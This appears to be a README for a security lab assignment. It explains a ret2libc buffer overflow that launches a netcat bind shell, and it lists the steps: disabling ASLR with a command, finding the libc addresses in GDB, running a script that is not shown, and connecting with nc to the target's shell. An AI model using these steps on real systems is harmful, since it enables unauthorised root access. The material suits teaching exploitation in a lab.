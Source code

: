 Description of Assignment:
 Linux system which use traditional Netcat, the goal is to use the ret2libc exploit to launch a remote shell. The attack consists of overwriting the program's buffer with 13 "A" characters while running the program with root privileges, then overflowing the base pointer with 4 "B" characters. The program is instructed to execute a payload at a specified address by using the system address to override the return address. A netcat command that creates a bind shell on a given port and permits remote system access creates the payload.

Instruction:

Turn ASLR off so address env variable address doesn't change.
    Command: sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
    
Find Address:
	SYSTEM_ADDR: use p system in GDB
	EXIT_ADDR: use p exit in GDB
	BINSH_ADDR: use find &system,+9999999,"/bin/sh" in GDB

Run script:-
    Command: sh run.sh

To connect to the bind shell on the target machine using netcat, run the following command:-
    Command: nc -nv TARGET_IP TARGET_PORT

